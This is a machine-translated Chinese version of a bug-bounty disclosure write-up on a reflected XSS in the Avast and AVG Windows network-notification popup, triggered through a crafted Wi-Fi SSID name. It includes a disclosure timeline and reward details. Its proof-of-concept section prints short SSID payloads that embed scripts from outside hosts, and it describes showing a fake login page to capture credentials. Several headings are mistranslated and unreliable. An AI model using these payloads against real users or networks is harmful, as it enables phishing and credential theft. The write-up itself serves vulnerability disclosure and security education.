








# 5000 美元 XSS 问题在 Avast 桌面杀毒软件为 Windows(是的，桌面！)

> 原文：<https://infosecwriteups.com/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968?source=collection_archive---------0----------------------->

## CVE-2019–18653 & CVE-2019–18654:反映 XSS 的故事是从 SSID 名称触发的(它也影响了 AVG AntiVirus，因为基本上产品代码大多是“合并的”)。

بسم الله الرحمن الرحيم

```
So, this article will be explained in two ways, which are the one that tells how I got it and the one that tries to explain the basic and reference*.*Readers could also read the TL;DR section directly.
```

## I. TL 速度三角形定位法(dead reckoning)

**1.1。**使用简单的 XSS 有效负载创建 SSID 名称(最多 32 个字符)。我们可以使用 [BruteLogic](https://twitter.com/BruteLogic) 和 [s0md3v](https://twitter.com/s0md3v) 短 XSS 有效载荷(谢谢老兄！).

**1.2。**将您的 Windows 操作系统(安装并激活 Avast 防病毒软件)连接到 SSID，并等待 Avast 网络通知功能触发 XSS 有效负载。



通过 SSID 名称触发 XSS

**1.3。向 Avast 报告，并在大约 2 天内确认为有效问题。几个月后，他们判断问题是否相当严重，决定奖励举报人 5000 美元。**

## 二。关于我如何得到这个问题的幕后故事

几年前，我读了一篇来自一个 bug 猎人的好文章，当时他在一些大公司中通过将 XSS 有效载荷放在他的 SSID 名称上而得到了许多 XSS 问题(我确实因为一个原因丢失了书签)。简而言之，当他浏览许多应用程序时，他得到许多反映他的 SSID 名称的值的应用程序(并且 XSS 被触发)。从那里，然后我开始使用 XSS 有效载荷作为我的 SSID 名称(在 OS X)。

于是，几个月前，我从当时工作的办公室拿到了一个笔记本(里面有 windows)。我从网络连接上安装了所有我需要的东西，并把 Avast 杀毒软件留到了最后(在家里)。在家里，我继续安装，一切顺利。

直到有一天我再次使用这个笔记本进行训练。在训练过程中(第 3 天或第 4 天)，在训练过程中(第 3 天或第 4 天)，我使用的连接出现了问题。所以，突然这台笔记本自动连接到我的网络共享连接(已经安装了 Avast)，几秒钟后，我的桌面上出现了一个弹出警告，上面写着“**https://local.avast.com**”。

说实话，我也不知道是怎么回事。幸运的是，在课堂上有一个视频记录，我要求复制这段时间的对话。试图找出这是如何发生的，我终于在第二天得到了答案。该 XSS 被触发是因为 Avast(专门用于互联网安全和 Premiere 版)中的嵌入式“**网络通知功能**”(防火墙)反映了 SSID 名称，并且还没有被杀毒。

然后当天晚上就做了汇报，大概 2 天左右得到回复确认问题是否有效。

## 三。摘要

正如 Avast 官方网站所引用的，Avast 是世界上最大的安全公司之一，它使用下一代技术来实时对抗网络攻击，致力于创建一个为所有人提供安全和隐私的世界，无论你是谁，你在哪里，或者你如何连接。

Avast 进行了如此多的研究，试图为每个用户实现最佳的终端保护。已经嵌入的一个特性是“**防火墙**”特性，它可以很容易地用于管理传入和传出流量。

默认情况下，当用户连接到一个**新网络**时，这个防火墙功能会给用户一个警告(弹出通知)。例如，如下图所示，这表明用户刚刚连接到一个无线网络，其 SSID 名称为“我的热点”。



连接到新网络时弹出通知

弹出窗口出现后，用户可以从他们正在连接的 SSID 中选择网络类型，如“**专用**网络或“**公共**网络”。

但是，当这个通知弹出窗口没有过滤掉 SSID 名称中反映的特殊字符时，就会出现问题。换句话说，攻击者可以使用**恶意 SSID 名称，通过**弹出通知**在客户端触发 XSS。**

## 四。介绍

**4.1。跨站脚本(XSS)** 简单来说，这种漏洞就是能够“让”攻击者能够在输入部分执行代码的漏洞，而输入部分并没有实现对“> < : /”等特殊字符的过滤；等等。与“保存”执行代码的存储 XSS 相反，反射 XSS 实际上根本不保存这个脚本，因此“目标”被期望并被要求访问由来自攻击者的附加内容“注入”的 URL。

在这种情况下，Avast 将输入(来自 SSID 名称)反映到弹出通知中(每次用户更改连接时)。当 SSID 名称包含客户端脚本(如 javascript)时，通知将触发可触发 XSS 漏洞的脚本。

一件好事是，即使 SSID 名称有大约 32 个字符的限制，我们仍然可以通过调用一个短 URL 来切断它。感谢[蛮逻辑](https://twitter.com/brutelogic)和 [S0md3v](https://twitter.com/s0md3v) ，谢谢老兄！

**4.1.1。短 XSS 有效载荷**
我第一次得到一个弹出警告，我不知道如何进一步触发它。然后是 Alhamdulillah，我非常幸运，因为我记得读过一篇由“ *Brute Logic* ”和“ *S0md3v* ”发表的关于短 XSS 有效载荷的文章。最酷的是，它成功了！

如果你正在寻找伟大而富有创意的 XSS 有效载荷，那么我推荐这两项研究:
[https://brute logic . com . br/blog/shortest-reflected-XSS-possible/](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/)
[https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

是的(当然)，有很多研究人员仍然分享其他伟大的和创造性的有效载荷，你可以跟随。

**4.2。研究可以通过使用恶意 SSID 名称**
执行的与故事相关的事情如前所述，我从一个 bug 猎人发布的文章中认识到了这个技巧(非常抱歉，因为一件事我真的丢失了我的书签)。从他的研究中，我终于了解到这个领域的研究是由 Deral Heiland 在 2013 年非常详细地进行的。他在 BlackHat Europe 2013 上发表了这项研究。

所以，对于这方面的研究和深入了解，可以参考他的介绍。非常推荐。

**4.3。受影响的版本和测试环境
Avast:** 可在 Avast Internet Security *版本 19.3.2369(内部版本 19.3.4241.440)* 中找到此漏洞的受影响版本。这也影响了 Avast 免费杀毒软件的首映。

**AVG 方面:**该问题影响了 AVG 互联网安全版本 19.3.3084(内部版本 19.3.4241.440)。

作为一个小注意，这两个问题已经在 Windows 10 环境中重现(最新补丁-2019 年 3 月 22 日)。

## 动词 （verb 的缩写）问题摘要

如前所述，本报告中的安全问题是一个漏洞，使得攻击者能够使用恶意 SSID 名称通过“弹出通知”在客户端触发 XSS。

在这种情况下，攻击者还可以通过“弹出通知”显示一个伪造的登录页面(例如带有 Avast / AVG 徽标)，用户不会感到可疑，因为当脚本触发一个伪造的登录页面时，没有可以看到/检测到的 URL。



触发虚假登录页面的示例案例- Avast



触发虚假登录页面的案例——AVG

## 不及物动词概念证明

为了完成说明，必须做一些事情来重现这个问题。以下是需要准备的步骤:

**6.1。**创建 SSID，用简单的 JavaScript 作为 SSID 的名称。例如:***>*** 使用这个脚本的基本目的是触发一个以“1”为字符的弹出警告。

6.2。确保受害者是否连接到准备好的 SSID

**6.3。**受害者连接到准备好的 SSID 后，等待几秒钟。将显示一个**弹出通知**，脚本将被触发:


该脚本已通过通知弹出窗口- Avast 触发



该脚本已通过通知弹出窗口- AVG 触发

**6.4。**因为 SSID 名称被限制为 32 个字符，所以我们必须通过使用短 URL 服务来欺骗脚本。例如，我们尝试从其他门户触发登录表单..使用的脚本是:***><embed src =//tiny . cc/XYZABCX>***(也可以使用 bit.ly)。



从其他门户触发登录表单以弹出通知


从其他门户触发登录表单到通知弹出窗口 II

而且好的一点是，还可以从其他外部 URL 触发脚本(功劳到 s0md3v)。下面举个例子:***><embed src =//14 . RS>***



使用外部脚本触发脚本

## 七。附加说明

为了补充说明，下面是一个简单的概念验证视频:

PoC 视频-通过 SSID 名称触发 XSS 有效载荷

## 八。报告时间表

*   **2019 . 3 . 21:**发现问题，还不知道根本原因；
*   **2019 年 3 月 22 日:**发现问题，然后创建报告并通过 bugs@avast.com 发送；
*   2019 年 3 月 25 日:如果 AVG 也受到影响，发送信息；
*   **2019 年 3 月 25 日:** Avast 回复并确认了 bug。他们说，如果他们将很快发布一个补丁；
*   **2019 年 3 月 25 日:**如果不出意外，Avast 回复(如果 AVG 也受到同样问题影响)。他们很好地给出了高水平的解释。
*   **2019 年 5 月 24 日:** Avast 表示该问题是否已修复(在 Avast 19.4 中)并已发布。他们还说，如果奖励决定后，他们会给出更多的细节。
*   **2019 年 6 月 12 日:** Avast 判断此问题相当严重，决定奖励举报人 5000 美元。(真的很神奇)。



Avast 的奖励决定

这一次真的打破了我一次奖金的记录。还有，那个决定真的让我很惊讶。当时我还不相信，直到这些数字真的打进了我的 Paypal 账户。

**对于 Avast:** 非常感谢你给我们带来的惊喜奖励和精彩节目！非常感谢。我已经说不出感谢他们的话了。

*   **2019 年 10 月 30 日:***CVE-2019–18653*已指定在 Avast 发行，*CVE-2019–18654*已指定在 AVG 发行。

## 九。闭幕

嗯，正如读者所见，这是我从未想象过的(在桌面应用程序上触发 XSS)。我或许可以分享一些简单的注意事项(以我有限的知识):

*   永远试着给你读过的所有东西做书签。当你想对你的目标使用这些技巧时，记下笔记并回来。在这种情况下，有一天我阅读并保存了一篇由 Brute Logic 和 s0md3v 制作的出版物。当我遇到困难的情况时(例如用有限的字符触发 XSS)，我会返回到他们的报告并打开我的笔记。
*   尽管这看起来很傻，但如果您输入的 SSID 名称带有(例如)有效载荷 XSS，效果会更好。我已经把它放了好几年了(自从我第一次读到一个 bug 猎人发表的文章，谢谢！)，但我发现它是在 2019 年在 Windows OS 的桌面应用程序上触发的(不影响 OS X 版本的 Avast)。

另外，我从中学到的另一个矢量是:

*   通过恶意 SSID 名称的 XSS 也可以被触发，用于在应用程序中反映或存储我们的 SSID 名称。在这种情况下，Avast 和 AVG 已经反映了 SSID 名称。
*   除了桌面的，只是请不要忘记 XSS，也可以由反映 SSID 名称的 Web 或移动应用程序触发。
*   另一方面，我也知道了存储 SSID 名称的那个也可能是易受攻击的。至少，我在一些报道中看到过，例如:
    [【CVE-2019–11877】在 Pix-Link 中继器上通过 XSS 窃取凭据](https://medium.com/@igor.lrgomes/cve-2019-11877-credentials-stealing-through-xss-on-pix-link-repeater-9a98c344f58e)
    [【CVE-2017–14219】XSS 在 Intelbras 路由器 WRN 240](https://medium.com/@elberandre/router-exploit-getting-wireless-password-and-administrator-session-without-being-connected-on-the-e6c0517b00a6) — *在未连接到同一网络的情况下获取无线密码和管理员会话* [【CVE-2018–17337】xs](https://packetstormsecurity.com/files/149730/NPLUG-Wireless-Repeater-1.0.0.14-CSRF-XSS-Authentication-Bypass.html)

## X.信用

*   [https://media . black hat . com/eu-13/briefings/heil and/BH-eu-13-practical-exploitation-heil and-slides . pdf](https://media.blackhat.com/eu-13/briefings/Heiland/bh-eu-13-practical-exploitation-heiland-slides.pdf)
*   [https://blog.rapid7.com/2016/03/09/its-all-in-the-name/](https://blog.rapid7.com/2016/03/09/its-all-in-the-name/)
*   [https://brute logic . com . br/blog/shortest-reflected-XSS-possible/](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/)
*   https://github.com/s0md3v/AwesomeXSS

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)